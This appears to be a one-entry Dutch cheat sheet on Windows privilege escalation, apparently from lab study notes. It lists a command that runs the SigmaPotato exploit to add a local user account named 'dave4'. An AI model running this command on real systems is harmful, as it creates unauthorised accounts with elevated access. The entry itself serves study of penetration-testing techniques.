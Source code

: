 # 17. Windows Privilege Esc — Entry 61

## Categorie

Using exploits

## Commando

```
.\SigmaPotato "net user dave4 lab /add"
```

## Omschrijving

Creating a new user with SigmaPotato

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

